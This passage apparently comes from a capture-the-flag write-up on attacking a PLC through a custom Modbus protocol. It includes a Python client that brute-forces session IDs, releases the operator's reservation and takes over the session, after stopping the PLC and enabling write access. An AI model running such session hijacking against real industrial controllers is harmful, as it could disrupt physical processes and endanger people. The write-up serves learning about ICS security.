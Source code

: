 Since we have send both commands mapped close to the two restricted commands from the PCAP, correspoding to `start PLC` and `disbale write access`, this means we have `enabled write access via Modbus` and also `Stoped the PLC`. If the PLC is not running its control logic this can not be the reason for the failure to force the coils.

> If the PLC Logic was still running, then it would make sense for the coils to be overwritten by the control logic running on the PLC which would have the outputs (coils) of the doors connected to some inputs (ex: physical push buttons, sensors, etc).

The only other external factor that might affect this process is the operator program which shares the same session with us. Let's try to take over the session of the operator program by:

1. release the current reservation
2. take a new reservation (resulting to a new Session ID)

Let's use the provided client again to send the 0x11 command.

```python
# <SNIP>
if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x45

    for i in range(0x00, 0xff):
        SESSION = i
        code, status, data = send_packet(client, SESSION, custom_code)


        hex_data = [hex(x) for x in data]

        formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
        print(hex_data, formatted_hex_string)


        if data != [0xe0, 0x08]:
            print(f'Current Session ID: {SESSION} ({SESSION:#x})')
            break


    code, status, data = send_packet(client, SESSION, 0x11)
    
    username = [ord(char) for char in 'new_operator']

    code, status, data = send_packet(client, SESSION, 0x10, username)
    SESSION = data[0]
```

Running the client with the above updates results in a new error.

```
python3 client.py

ERROR CODE 0xE002: Data Format Error
```
